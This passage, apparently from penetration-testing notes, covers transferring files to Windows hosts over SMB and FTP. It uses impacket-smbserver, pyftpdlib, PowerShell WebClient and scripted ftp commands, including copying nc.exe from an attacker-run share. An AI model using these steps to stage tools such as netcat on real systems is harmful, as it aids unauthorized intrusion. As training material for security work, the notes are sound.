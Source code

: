 ### SMB Downloads

The Server Message Block protocol (SMB) runs on port TCP/445 and is common in enterprise networks.

**Create SMB Server on Linux:**
```bash
sudo impacket-smbserver share -smb2support /tmp/smbshare
```

**Download from SMB Server:**
```cmd
copy \\192.168.220.133\share\nc.exe
```

**For newer Windows versions (authenticated SMB):**
```bash
# Create SMB server with credentials
sudo impacket-smbserver share -smb2support /tmp/smbshare -user test -password test
```

```cmd
# Mount SMB share with credentials
net use n: \\192.168.220.133\share /user:test test
copy n:\nc.exe
```

### FTP Downloads

FTP uses ports TCP/21 and TCP/20 for file transfers.

**Setup FTP Server on Linux:**
```bash
# Install pyftpdlib
sudo pip3 install pyftpdlib

# Start FTP server
sudo python3 -m pyftpdlib --port 21
```

**Download via PowerShell:**
```powershell
(New-Object Net.WebClient).DownloadFile('ftp://192.168.49.128/file.txt', 'C:\Users\Public\ftp-file.txt')
```

**Download via FTP Client (non-interactive):**
```cmd
# Create command file
echo open 192.168.49.128 > ftpcommand.txt
echo USER anonymous >> ftpcommand.txt
echo binary >> ftpcommand.txt
echo GET file.txt >> ftpcommand.txt
echo bye >> ftpcommand.txt

# Execute FTP commands
ftp -v -n -s:ftpcommand.txt
```
